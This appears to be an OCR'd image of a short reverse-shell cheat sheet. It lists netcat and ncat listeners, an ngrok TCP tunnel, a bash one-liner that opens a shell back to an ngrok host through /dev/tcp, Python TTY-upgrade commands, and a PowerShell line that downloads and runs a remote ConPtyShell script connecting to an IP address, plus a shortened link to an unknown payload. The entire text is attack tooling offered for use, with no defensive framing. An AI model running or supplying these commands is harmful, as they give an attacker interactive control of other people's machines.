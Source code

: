 ##Open Netcat Server

nc -lv localhost 8782
or
ncat -lvnp 1234
target windows :
stty raw -echo; (stty size; cat) | ncat -lvnp 1337

##Spawn Ngrok Server
ngrok tcp 8782

##Payload Client :
https://www.revshells.com/
or : 
https://bit.ly/3yNL1hg
sh -i >& /dev/tcp/6.tcp.ngrok.io/15060 0>&1


##Spawn TTY
python -c 'import pty; pty.spawn("/bin/sh")'
python -c 'import pty; pty.spawn("/bin/bash")'

IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.9.1.25 1337
